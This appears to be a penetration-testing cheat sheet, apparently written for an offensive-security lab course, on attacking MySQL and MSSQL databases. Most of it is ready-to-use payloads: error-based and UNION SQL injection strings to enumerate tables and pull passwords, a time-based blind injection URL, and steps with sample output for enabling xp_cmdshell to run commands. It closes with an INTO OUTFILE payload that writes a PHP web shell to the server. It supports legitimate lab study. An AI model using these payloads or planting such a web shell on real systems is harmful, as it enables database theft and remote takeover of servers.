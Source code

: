 
##### Note: make sure to check for error messages.
#### Connecting to MySQL
```
mysql -h TARGET_IP -u USERNAME -p   // Remote authentication with username and password
```

```
SELECT @@VERSION;               // Print the SQL version
SELECT system_user();           // Print the current user. Note: this is the database-specific user, it may not be the user of the same name in the system.

SHOW databases;
USE DATABASE_NAME;
SHOW tables;
```


#### MSSQL basics
```
impacket-mssqlclient USER:PASSWORD@IP_ADDRESS -windows-auth
SELECT @@VERSION;

SELECT name FROM master.dbo.sysdatabases               // Show databases
SELECT * FROM TARGET_DB.information_schema.tables;     // Show tables


```


#### Enabled error messages
```
' or 1=1 in (select @@version) -- -                 
' or 1=1 in (SELECT password FROM users) -- -         // might show the passwords in the error message.
```


#### MySQL UNION injection
First, use these payloads ascending until an error occurs:
```
' ORDER BY 1-- -
' ORDER BY 2-- -
' ORDER BY 3-- -
```
The last number before the error is the amount of columns in the request. Then, use this payload with the appropriate amount of columns:
```
' UNION SELECT @@version -- -
' UNION SELECT null, @@version -- -
...
' UNION SELECT null, null, database(), user(), @@version  -- -
```
If the payload works, it's time to read the database tables:
```
' union select table_name from information_schema.columns where table_schema=database() -- -
' union select null, table_name from information_schema.columns where table_schema=database() -- -
...
' union select null, null, null, null, table_name from information_schema.columns where table_schema=database() -- -
// options: table_name, column_name, table_schema,
```

If a table is found:
```
' UNION SELECT null, COLUMN_NAME FROM TABLE_NAME -- 
```

#### Blind SQLI
```
http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- -
```



#### MSSQL Code Execution
To get RCE in `MSSQL` using the `xp_cmdshell`, a few conditions need to be met:
- First, *show advanced options* needs to be set to `1`, and a `RECONFIGURE;` command needs to be issued.
- Then, *xp_cmdshell* needs to be set to `1`, and a `RECONFIGURE;` command needs to be issued.
From this point, the `xp_cmdshell` command is unlocked and can be used to get RCE.

##### RCE with credentials
```
impacket-mssqlclient USERNAME:PASSWORD@IP_ADDRESS -windows-auth
// MSSQL
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXECUTE xp_cmdshell 'COMMAND';
```

###### Example output
```
kali@kali:~$ impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
...
SQL> EXECUTE sp_configure 'show advanced options', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
SQL> EXECUTE xp_cmdshell 'whoami';

```


#### MySQL Code Execution
MySQL doesn't have any direct functions for running commands, but the `SELECT INTO_OUTFILE` functionality can be abused.
Note: for this to work, the user running the database needs to have `write` permissions where the `OUTFILE` is stored.

Example payload (might produce an error due to the return type, won't affect the result):
```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- -
```
This will write `<?php system($_GET['cmd']);>` into `/var/www/html/tmp/webshell.php`. 
